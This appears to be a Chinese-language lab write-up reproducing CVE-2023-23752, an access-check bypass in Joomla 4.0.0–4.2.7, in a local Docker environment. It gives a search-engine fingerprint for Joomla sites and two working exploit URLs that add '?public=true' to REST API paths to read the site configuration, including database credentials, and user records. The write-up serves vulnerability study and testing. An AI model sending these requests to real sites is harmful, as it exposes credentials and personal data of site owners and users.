



Joomla application 权限绕过漏洞 CVE-2023-23752¶
漏洞描述¶
Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。
在其4.0.0版本到4.2.7版本中，存在一处属性覆盖漏洞，导致攻击者可以通过恶意请求绕过权限检查，访问任意Rest API。
参考链接：
- https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html
- https://xz.aliyun.com/t/12175
- https://vulncheck.com/blog/joomla-for-rce
漏洞影响¶
Joomla 4.0.0 - 4.2.7
网络测绘¶
app="Joomla"
环境搭建¶
Vulhub执行如下命令启动一个Joomla 4.2.7：
docker-compose up -d
服务启动后，访问http://your-ip:8080即可查看到Joomla页面。

漏洞复现¶
这个漏洞是由于错误的属性覆盖导致的，攻击者可以通过在访问Rest API时传入参数public=true来绕过权限校验。
比如，访问下面这个链接即可读取所有配置项，包括数据库连接用户名和密码：
http://your-ip:8080/api/index.php/v1/config/application?public=true

如果不添加public=true，则访问会被拒绝：

访问下面这个链接即可读取所有用户信息，包含邮箱等：
http://your-ip:8080/api/index.php/v1/users?public=true